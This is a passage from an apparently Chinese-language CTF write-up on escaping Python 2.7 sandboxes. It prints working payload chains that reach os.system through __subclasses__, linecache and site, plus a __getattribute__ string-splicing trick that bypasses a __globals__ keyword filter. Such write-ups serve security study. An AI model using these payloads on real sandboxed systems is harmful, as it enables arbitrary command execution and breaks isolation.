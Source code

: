 我们来看一下`/usr/lib/python2.7/warning.py`导入的模块

```
import linecache
import sys
import types
```

跟踪linecache文件`/usr/lib/python2.7/linecache.py`

```
import sys
import os
```

OK,调用了os,可以执行命令，于是一个利用链就可以构造了:

```
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')
[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```

> **dict**和**globals**都是字典类型，用[]键值对访问，也可以通过values(),keys()这样的方法来转换成list,通过下标来访问

还要大佬给了一个不需要利用`__globals__`就可以执行命令的payload：

```
[].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
```

我们来在来看一下`/usr/lib/python2.7/site.py`导入的模块

```
import sys
import os
import __builtin__
import traceback
```

直接构造:

```
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
```

### 

### 2.2 禁用了**globals**如何绕过

在今年国赛上有一道run的沙盒绕过的题目,白名单过滤了`import` 导入的内容, 禁用了ls,即`__globals__` 用不了了,想了很多其他方式都没有绕过去,赛后才知道的方法,这里也写一下

绕过方法就是利用类的一些描述器方法

`__getattribute__`:

当访问 某个对象的属性时，会无条件的调用这个方法。比如调用`t.__dict__`,其实执行了`t.__getattribute__("__dict__")`函数, 这个方法只适用于新式类。<br>
新式类就是集成自object或者type的类。

于是我们就可以利用`__init__.__getattribute__('__global'+'s__')` 拼接字符串的方法来绕过ls的关键字 而不是直接调用`__init__.__globals__`
